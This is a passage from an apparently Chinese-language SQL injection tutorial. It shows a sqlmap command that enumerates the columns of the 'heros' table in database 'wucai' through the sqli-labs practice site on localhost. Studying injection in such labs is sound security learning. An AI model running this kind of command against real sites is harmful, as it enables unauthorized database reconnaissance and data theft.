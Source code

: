 ![](./httpsstatic001geekbangorgresourceimage1116119174ae050e5a27e70ebc5537d7b116.png)

### 查询heros数据表中所有字段名称

我们也可以对指定的数据表，比如heros表进行所有字段名称的查询，使用`-D`指定数据库名称，`-T`指定数据表名称，`--columns`对所有字段名称进行查询，命令如下：

```
    python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 -D wucai -T heros --columns
    

```
